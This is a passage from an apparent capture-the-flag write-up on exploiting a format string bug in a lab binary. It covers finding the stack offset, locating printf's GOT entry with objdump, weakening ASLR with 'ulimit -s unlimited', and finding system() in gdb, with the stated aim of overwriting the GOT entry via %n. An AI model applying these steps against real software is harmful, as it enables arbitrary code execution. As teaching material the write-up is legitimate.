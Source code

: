 Parameter 8 in the format string is the start of the section on the stack we can read now, shown in the output `AAAA.0x41414141` of the format string `AAAA.0x%8$x`.

Now we will move on to making use of the `%n` format string to write to a arbitrary area in memory. Where do we want to write? To the GOT where the lookup for `printf()` occurs ofc! Lets dump the GOT for `./my_first`, and determine where it will go look for `printf()`:

```bash
mike@pegasus:~$ objdump -R ./my_first 

./my_first:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049bec R_386_GLOB_DAT    __gmon_start__
08049c20 R_386_COPY        stdin
08049bfc R_386_JUMP_SLOT   printf
08049c00 R_386_JUMP_SLOT   fgets
08049c04 R_386_JUMP_SLOT   puts
08049c08 R_386_JUMP_SLOT   __gmon_start__
08049c0c R_386_JUMP_SLOT   __libc_start_main
08049c10 R_386_JUMP_SLOT   putchar
08049c14 R_386_JUMP_SLOT   strtol
```

The location of `printf()` will be looked up at `08049bfc`. This is the part where we want to rewrite the address of `printf()` to that of libc's `system()`.

The last part we need is to know where `system()` actually is. An important vector that may influence this position in memory is known as ASLR, which will effectively cause the address of `system()` to be different every time `./my_first` is run. To combat this, a neat little trick to increase the stack size can be used using `ulimit`. `ulimit -s unlimited` will maximize the stack size, effectively causing the ASLR to be practically nonexistent:

```bash
mike@pegasus:~$ ulimit -s
8192
mike@pegasus:~$ ulimit -s unlimited
mike@pegasus:~$ ulimit -s
unlimited
```

With the ASLR problem out of the way, lets leak the address of `system()`:

```bash
# fire up gdb
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.

# set a break point as we enter main()
(gdb) b main
Breakpoint 1 at 0x804850f

# run the binary
(gdb) r
Starting program: /home/mike/my_first 

Breakpoint 1, 0x0804850f in main ()

# leak the current address of system()
(gdb) p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
(gdb)
```
